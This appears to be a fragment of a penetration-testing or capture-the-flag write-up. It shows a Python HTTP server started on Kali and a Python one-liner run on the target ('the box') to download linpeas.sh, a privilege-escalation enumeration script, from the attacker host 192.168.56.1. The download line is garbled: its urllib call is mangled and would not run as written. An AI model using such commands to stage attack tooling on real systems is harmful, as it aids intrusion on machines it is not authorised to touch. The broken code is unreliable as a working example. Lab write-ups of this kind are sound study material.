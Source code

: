 `on kali`

```bash
python2.7 -m SimpleHTTPServer 80
```

`on the box`

```bash
python3 -c "import urllib.request; urllib.request.url//192.168.56.1:80/linpeas.sh', 'linpeas.sh')"
```
